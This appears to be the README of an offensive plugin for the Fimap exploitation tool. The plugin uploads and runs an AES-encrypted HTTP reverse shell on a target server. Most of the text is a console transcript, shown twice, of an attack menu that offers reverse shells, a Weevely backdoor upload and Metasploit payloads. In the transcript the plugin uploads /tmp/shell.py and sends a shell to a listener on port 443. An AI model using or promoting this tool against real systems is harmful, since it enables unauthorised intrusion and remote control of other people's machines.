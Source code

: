 AES-Shell-Injector - Fimap Plugin that allows you to inject an AES HTTP Reverse Shell

Author:    Darren "Infodox" Martyn.
Email:     infodox@insecurety.net
Twitter:   twitter.com/info_dox
Site:      http://insecurety.net/
Usage:     Just add this to the plugins folder in Fimap, should work fine as-is.

NOTE: The AES-Reverse listener is in the "listener" folder...

Example:
######################################################################################
#:: Available Attacks - PHP and SHELL access ::                                      #
######################################################################################
#[1] Spawn fimap shell                                                               #
#[2] Spawn pentestmonkey's reverse shell                                             #
#[3] [Upload Weevely] Uploads a Weevily Backdoor                                     #
#[4] [AES HTTP Reverse Shell Injector] Uploads and runs an AES HTTP Reverse shell    #
#[5] [msf_bindings] Executes MSF reverse payloads                                    #
#[6] [Test Plugin] Show some info                                                    #
#[7] [reverse http shell] Loads a reverse HTTP shell                                 #
#[q] Quit                                                                            #
######################################################################################
Choose Attack: 4
Uploading shell to /tmp/shell.py  ...
Uploaded 5128 bytes
Hope you have the listener running... Time to input your infoes :)
IP of listener?: 127.0.0.1
Port of listener?: 443
Executing the shell! Sending reverse shell to 127.0.0.1 443
######################################################################################
#:: Available Attacks - PHP and SHELL access ::                                      #
######################################################################################
#[1] Spawn fimap shell                                                               #
#[2] Spawn pentestmonkey's reverse shell                                             #
#[3] [Upload Weevely] Uploads a Weevily Backdoor                                     #
#[4] [AES HTTP Reverse Shell Injector] Uploads and runs an AES HTTP Reverse shell    #
#[5] [msf_bindings] Executes MSF reverse payloads                                    #
#[6] [Test Plugin] Show some info                                                    #
#[7] [reverse http shell] Loads a reverse HTTP shell                                 #
#[q] Quit                                                                            #
######################################################################################
Choose Attack: 4
Uploading shell to /tmp/shell.py  ...
Uploaded 5128 bytes
Hope you have the listener running... Time to input your infoes :)
IP of listener?: 127.0.0.1
Port of listener?: 443
Executing the shell! Sending reverse shell to 127.0.0.1 443

> Make sure your listener is running. I set it to use Port 443, you can edit the listener source in listener/server.py tto change this. 


### Known Issues ###
* This plugin does NOT yet auto connect, as my normal method of popping an XTERM to connect did not seem like a great idea.
* This plugin is still in Beta. Report any bugs in my code, PLEASE!

### Greetings and Credits ###
imax for writing Fimap!
Dave rel1k for writing the reverse shell
ohdae for one-upping all my post-pwnage ideas and writing Intersect :P
pr0f for inspiration in general.
eipwner also for being idea-causing
v0rbis for making me feel like I had to do something

